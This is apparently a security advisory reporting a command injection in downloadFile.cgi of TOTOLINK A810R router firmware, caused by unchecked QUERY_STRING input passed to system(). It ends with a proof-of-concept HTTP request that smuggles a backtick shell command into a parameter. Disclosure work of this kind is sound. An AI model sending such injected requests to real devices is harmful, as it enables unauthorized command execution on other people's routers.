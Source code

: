 # command injection

## A810R_Firmware

version: V5.9c.4050_B20190424

## Description:

There is a command injection in downloadFile.cgi. Still exist in V5.9c.4050_B20190424.

## Source:

you may download it from : [http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=2&ids=36](http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=7&ids=36)

## Analyse:
![](https://s3.bmp.ovh/imgs/2022/08/15/c9bc5cee24835fdb.png)

don't check the input of QUERY_STRING and call system

![](https://s3.bmp.ovh/imgs/2022/08/15/4adf3d68294d8f74.png)


# POC
```
GET /cgi-bin/downloadFlile.cgi?payload=`dw>../1.txt` HTTP/1.1 
Host: 192.168.1.106
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 accept-language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```
